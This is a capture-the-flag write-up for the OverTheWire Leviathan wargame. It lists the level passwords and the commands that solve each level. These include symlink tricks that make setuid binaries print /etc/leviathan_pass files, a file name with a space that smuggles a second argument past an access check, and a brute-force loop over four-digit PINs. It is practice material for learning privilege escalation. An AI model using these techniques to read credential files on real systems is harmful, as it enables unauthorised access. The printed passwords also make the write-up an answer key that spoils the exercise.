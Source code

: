 #Leviathan writeup
[http://www.overthewire.org/wargames/leviathan/](http://www.overthewire.org/wargames/leviathan/)

##Level 0:
    ssh leviathan0@leviathan.labs.overthewire.org

pass is `leviathan0`

    less /README.txt

Note that "Passwords for each level are stored in /etc/mygame_pass/.""

    ls -a
    cd .backup
    ls
    cat bookmarks.html | grep password

##Level 1:
    ssh leviathan1@leviathan.labs.overthewire.org

pass is `rioGegei8m`

    ls
    strings check
    ./check
    sex
    cat /etc/leviathan_pass/leviathan2

##Level 2:
    ssh leviathan2@leviathan.labs.overthewire.org

pass is `ougahZi8Ta`

    ls
    ls -l printfile
    ./printfile
    mkdir /tmp/lchack-qrohlf
    echo "foo" > tmp/lchack-qrohlf/foo.txt
    ./printfile /tmp/lchack-qrohlf/foo.txt
    cd /tmp/lchack-qrohlf
    ln -s /etc/leviathan_pass/leviathan3
    touch "somefile leviathan3"
    ~/printfile "somefile leviathan3"

##Level 3:
    ssh leviathan3@leviathan.labs.overthewire.org

pass is `Ahdiemoo1j`

    ls -a
    ./level3
    strings level3
    for i in `strings level3`; do echo $i && echo $i | ./level3; done
    ./level3
    snlprintf
    cat /etc/leviathan_pass/leviathan4

##Level 4:
    ssh leviathan4@leviathan.labs.overthewire.org

pass is `vuH0coox6m`

    ls -a
    cd .trash
    ./bin

used an online binary to ASII converter to get `Tith4cokei` from the output

##Level 5:
    ssh leviathan5@leviathan.labs.overthewire.org

pass is `Tith4cokei`

    ls
    ./leviathan5
    echo "foo" > /tmp/file.log
    ./leviathan5
    ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
    ./leviathan5

##Level 6:

    ssh leviathan6@leviathan.labs.overthewire.org

pass is `UgaoFee4li`

    ls 
    ./leviathan6
    for i in {1000..9999}; do echo $i; if ./leviathan6 $i > /dev/null; then break; fi; done
    ./leviathan6 7123
    cat /etc/leviathan_pass/leviathan7

##Level 7:

    ssh leviathan7@leviathan.labs.overthewire.org

pass is `ahy7MaeBo9`

    cat CONGRATULATIONS 